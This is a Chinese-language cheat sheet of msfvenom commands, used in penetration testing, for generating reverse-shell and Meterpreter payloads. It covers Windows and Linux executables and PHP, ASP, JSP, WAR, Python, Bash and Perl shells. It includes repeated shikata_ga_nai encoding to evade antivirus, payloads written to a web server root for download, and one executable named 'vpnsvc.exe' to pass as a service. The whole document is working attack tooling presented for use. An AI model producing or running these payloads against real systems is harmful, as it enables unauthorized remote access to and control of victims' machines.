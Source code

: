 # 列出所有攻击载荷
```
msfvenom -l   
```     

# windows
分段
windows/shell/reverse_tcp

不分段
windows/shell_reverse_tcp


exe
```
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.119.131 LPORT=443 -f exe >vpnsvc.exe
```

加密一次
```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.0.92  lport=4444 -b "\x00" -e x86/shikata_ga_nai -i 10 -f exe -o /var/www/html/1.exe
```


加密两次
```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.0.92 lport=4444 -b "\x00" -e x86/shikata_ga_nai -i 20 | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 10 -f exe -o /var/www/html/2.exe
```

meterpreter
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```


# linux

x86
```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.119.187 LPORT=443 -f elf > shell
```

x64
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.119.157 LPORT=143 -f elf > shell.elf
```

meterpreter
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```


# 其他

PHP
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
```
ASP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```

JSP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp  
```


WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war 
``` 

Python
```
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py  
```

Bash
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh 
```

Perl
```
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```